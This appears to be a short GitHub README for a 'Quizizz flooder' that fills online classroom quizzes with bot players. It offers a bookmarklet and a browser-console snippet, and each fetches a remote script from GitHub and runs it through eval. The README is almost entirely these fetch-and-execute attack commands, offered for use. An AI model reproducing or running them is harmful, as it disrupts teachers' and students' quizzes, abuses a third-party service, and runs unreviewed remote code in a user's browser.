 # Flood Quizizz with bots
Using Bookmarklet
- [](https://via.placeholder.com/15/1589F0/000000?text=+) Paste this into bookmark bar and click it
```js
javascript:(function()%7Bfetch(%22https%3A%2F%2Fraw.githubusercontent.com%2Fseanv999%2Fquizizz-flooder%2Fmain%2Fflood.js%22)%0A.then((res)%20%3D%3E%20res.text()%0A.then((t)%20%3D%3E%20eval(t)))%7D)()%3B
```
Using console
- [](https://via.placeholder.com/15/1589F0/000000?text=+) Paste this into console
```js
fetch("https://raw.githubusercontent.com/seanv999/quizizz-flooder/main/flood.js")
.then((res) => res.text()
.then((t) => eval(t)))
```
![image](https://user-images.githubusercontent.com/79374771/162595454-64e57d15-24de-41a5-a690-1db4ce278f60.png)
